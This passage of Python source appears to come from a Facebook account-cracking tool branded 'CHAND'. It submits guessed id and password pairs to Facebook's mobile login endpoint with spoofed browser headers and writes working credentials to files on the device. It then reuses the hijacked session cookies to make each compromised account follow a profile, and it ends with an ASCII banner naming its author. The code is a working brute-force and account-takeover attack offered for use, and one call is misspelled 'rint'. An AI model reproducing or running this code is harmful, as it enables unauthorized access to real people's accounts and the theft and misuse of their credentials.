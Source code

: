 			ses.headers.update({"Host":'mbasic.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				rint( f'\r\x1b[1;92m [CHAND-Ok] {idf} | {pw}')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				coki=po.cookies.get_dict()
				coki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r\x1b[1;92m [CHAND-OK ] {idf} | {pw}')
				wrt =('%s - %s' % (idf,pw))
				ok.append(wrt)
				open('/sdcard/CHAND.txt','a').write('%s\n' % wrt)
				follow(ses,coki)
				break
 
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def follow(ses,coki):
	ses.headers.update({"accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
	r = sop(ses.get('https://mbasic.facebook.com/profile', cookies={'cookie': coki}).text, 'html.parser')
	get = r.find('a', string='Follow').get('href')
	ses.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text
 
logo = """\033[1;30m
                  ▉▉▉▉
                 ▂▉▉▉▉▂
                \033[1;33m╰▏ ┛┗ ▕╯
                 ╲ 👅 ╱
                 \033[1;32m╱▔╲╱▔╲
               ╱ ╱▏╭╮▕╲ ╲
               ╲ ╲▏╭╮▕╱ ╱       \033[1;31m╔═╗  ╔╦╗  ╔═╗
                \033[1;35m ╲▉▉▉▉╱         \033[1;31m╠═╣   ║   ╠╣
                \033[1;34m  ▏╭╮▕          \033[1;31m╩ ╩   ╩   ╚  
                \033[1;34m  ▏▏▕▕
                  ▏▏▕▕
                \033[1;31m ╭╰ ╮╭╰ ╮
               \033[1;39msᴜʙ \033[1;35mᴋᴀ \033[1;36mʙᴀᴀᴘ
\033[0;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●\033[1;37m๑۩♡۩๑\033[0;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●
\033[0;92m
 \033[1;31m██████╗██╗  ██╗ █████╗ ███╗   ██╗██████╗ 
\033[1;32m██╔════╝██║  ██║██╔══██╗████╗  ██║██╔══██╗
\033[1;33m██║     ███████║███████║██╔██╗ ██║██║  ██║
\033[1;34m██║     ██╔══██║██╔══██║██║╚██╗██║██║  ██║
\033[1;35m╚██████╗██║  ██║██║  ██║██║ ╚████║██████╔╝
 \033[1;31m╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚═════╝ 
\033[0;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●\033[1;37m๑۩♡۩๑\033[0;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●
\033[1;39m━▷ \033[0;91m𝙊𝙒𝙉𝙀𝙍    \033[1;39m◈✙◈\033[1;33m MR CHAND
\033[1;39m━▷ \033[0;91m𝙏𝙀𝘼𝙈     \033[1;39m◈✙◈\033[1;31m TEAM OF ATF
\033[1;39m━▷ \033[0;91m𝙔𝙊𝙐𝙏𝙐𝘽𝙀  \033[1;39m◈✙◈ \033[1;32mCHAND TRICKER